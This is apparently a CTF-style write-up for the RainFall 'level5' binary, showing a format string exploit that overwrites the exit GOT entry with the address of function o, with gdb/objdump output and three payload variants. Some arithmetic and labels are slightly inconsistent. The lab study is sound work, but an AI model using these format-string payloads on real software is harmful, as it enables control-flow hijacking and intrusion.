 ### TIPS

Pour lancer un payload dans gdb

```bash
(gdb) run < <(python -c 'print ("salut" * 5)';)
Starting program: /home/user/level5/level5 < <(python -c 'print ("salut" * 5)';)
salutsalutsalutsalutsalut
```

---

```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

offset of buffer of printf is `3` --> 4 je crois

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

### Payload

## Option 1

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` == `\x38\x98\x04\x08`

cible 2 = cible1 + 2 == `804983A` == `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%4$hn"				//write cible 1
exploit += "%33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%5$hn"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';cat) | ./level5

run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';)
```

## Option 2

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the low order bytes :
It'll be 33956 - 8 = 33948, because we already wrote 8 bytes, the two 4 bytes addresses

Then the high order bytes :
It'ill be 2052 - 33956 = -31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn

    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress 
    %33948x will write 33948 bytes of padding
    %4$hn will write 33956 (0x84a4) at address 0x08049838
    %33632x will write 33632 byte of padding
    %5$hn will write 2052 (bc of overflow) at address 0x0804983a

```bash
(python -c 'print ("\x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn")';cat) | ./level5
```

## Option 3

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the high order bytes :
It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses

Then the low order bytes :
It'ill be 33956 - 2052 = 31904

No we can construct the exploit
It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress 
    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    %2044x will write 2044 bytes of padding
    %4$hn will write 2052 (0x0804) at address 0x0804983a
    %31904x will write 31904 byte of padding
    %5$hn will write 33956 (0x9838) at address 0x08049838


```bash
(python -c 'print ("\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")';cat) | ./level5
```
